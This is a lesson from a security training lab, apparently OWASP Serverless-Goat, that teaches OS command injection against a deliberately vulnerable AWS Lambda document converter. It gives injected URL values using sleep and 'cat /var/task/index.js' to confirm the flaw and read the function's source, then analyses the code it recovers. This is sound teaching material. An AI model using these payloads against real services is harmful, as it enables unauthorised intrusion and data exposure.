 These are just a few hints to get you started.

### Lesson 2: Reverse Engineering The Lambda Function ###
The next obvious step, is to try and gain access to the source code of the Lambda function in order to reverse engineer it and discover additional weaknesses. For this step, we will try to check whether the function is vulnerable to OS command injection.

We will blindly probe for OS command injection using a common time-based probing method - i.e. by invoking the sleep shell command.

* In the URL field of the form, enter the following value in the URL field: `https://www.puresec.io/hubfs/document.doc` - this legitimate URL will return the converted text of the document
* Now try the following value: `https://www.puresec.io/hubfs/document.doc; sleep 1 #` and hit 'submit'. The function will run, albeit will return some garbled text
* Next, we will try with a really long sleep value, which will force the AWS Lambda function to hit the timeout it is configured with (default is 5 minutes): `https://www.puresec.io/hubfs/document.doc; sleep 5000 #`

Output:
Error message: ```{"message": "Internal server error"}```

Now we know that the application is vulnerable to OS command injection through the `document_url` parameter of the API, and we can move on to extract its source code, by sending the following value in the URL field: `https://foobar; cat /var/task/index.js #`

This should return the source code of the function - below is a snippet of the file, which can be found in full [here](https://github.com/OWASP/Serverless-Goat/blob/master/src/api/convert/index.js)

```js
const child_process = require('child_process');
const AWS = require('aws-sdk');
const uuid = require('node-uuid');

async function log(event) {
  const docClient = new AWS.DynamoDB.DocumentClient();
  let requestid = event.requestContext.requestId;
  let ip = event.requestContext.identity.sourceIp;
  let documentUrl = event.queryStringParameters.document_url;

  await docClient.put({
      TableName: process.env.TABLE_NAME,
      Item: {
        'id': requestid,
        'ip': ip,
        'document_url': documentUrl
      }
    }
  ).promise();

}
```

There's a lot to be learned from the source code:
* The application uses the AWS DynamoDB NoSQL database
* The application uses a Node.js package called node-uuid
* The application stores sensitive user information (IP address and document URL) inside the DynamoDB table, who's name is defined in the `TABLE_NAME` environment variable
* We see the root cause behind the OS command injection - using untrusted user input in the `child_process.execSync()` call
* The output of API invocations is stored inside an S3 bucket, whose name is also stored inside an environment variable - `BUCKET_NAME`

